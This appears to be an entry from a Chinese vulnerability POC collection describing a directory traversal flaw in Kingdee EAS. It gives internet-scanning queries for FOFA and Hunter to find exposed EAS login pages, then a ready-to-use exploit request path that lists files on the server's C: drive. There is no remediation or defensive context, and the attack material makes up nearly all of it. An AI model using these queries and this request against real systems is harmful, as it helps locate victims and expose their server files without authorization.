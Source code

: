# 金蝶 EAS files 目录遍历漏洞

## 网络测绘

fofa: app="Kingdee-EAS"

hunter: web.title="EAS系统登录"

## POC / EXP

```
/appmonitor/protected/selector/server_file/files?folder=C:%5C%5C&suffix=
```